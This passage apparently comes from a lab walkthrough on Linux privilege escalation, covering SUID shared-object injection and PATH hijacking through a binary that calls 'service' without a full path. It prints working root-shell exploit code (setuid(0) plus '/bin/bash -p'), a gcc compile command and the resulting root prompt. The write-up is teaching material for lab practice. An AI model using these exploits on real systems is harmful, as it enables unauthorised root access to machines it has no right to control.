 The exploit code is similar to below.
{% capture code %}{% raw %}#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
  setuid(0);
  system("/bin/bash -p");
}{% endraw %}{% endcapture %} {% include code.html code=code %}

The binary `/usr/local/bin/suid-so` can be executed which includes the library to spawn `privilege shell`.
{% capture code %}{% raw %}Calculating something, please wait...
bash-4.1#{% endraw %}{% endcapture %} {% include code.html code=code %}


## Task 13 - SUID / SGID Executables - Environment Variables

From the previous `suid` output, the file `/usr/local/bin/suid-env` can be tried to exploit. Upon trying to execute the binary, the following output can be seen.
{% capture code %}{% raw %}[....] Starting web server: apache2httpd (pid 1653) already running
. ok {% endraw %}{% endcapture %} {% include code.html code=code %}

The binary can be decoded to find any possible exploit using `strings /usr/local/bin/suid-env`. The output will be similar to
{% capture code %}{% raw %}/lib64/ld-linux-x86-64.so.2
5q;Xq
__gmon_start__
libc.so.6
setresgid
setresuid
system
__libc_start_main
GLIBC_2.2.5
fff.
fffff.
l$ L
t$(L
|$0H
service apache2 start{% endraw %}{% endcapture %} {% include code.html code=code %}

The command `service apache2 start` does not specify path for the binary and hence can be exploited by manipulating path to include similar binary in a path which precedes.

Compile a binary which spawns a `privilege shell`.
{% capture code %}{% raw %}gcc -o service /home/user/tools/suid/service.c{% endraw %}{% endcapture %} {% include code.html code=code %}

The exploit code is similar to below.
{% capture code %}{% raw %}int main() {
  setuid(0);
  system("/bin/bash -p");
}{% endraw %}{% endcapture %} {% include code.html code=code %}
